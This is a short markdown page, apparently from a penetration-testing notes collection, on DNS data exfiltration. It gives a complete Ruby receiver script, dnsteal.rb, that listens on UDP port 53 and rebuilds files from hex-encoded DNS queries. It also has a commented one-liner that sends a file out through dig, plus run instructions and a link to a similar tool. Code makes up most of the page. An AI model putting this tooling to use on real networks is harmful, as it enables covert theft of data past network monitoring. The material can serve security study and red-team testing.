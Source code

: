 # DNS 


## DNS Data Exfiltration 
DNS out-band connection is usually allowed in local networks, which is the major benefits of using DNS to transfer data to external server. 

**dnsteal.rb**
```ruby
#!/usr/bin/env ruby
#
# for c in $(xxd -p image.jpg); do dig @localhost $c; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudp ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```

Run it 
```
ruby dnsteal.rb image.jpg
```




<br><br><br>
---
- [dnsteal.py](https://github.com/m57/dnsteal)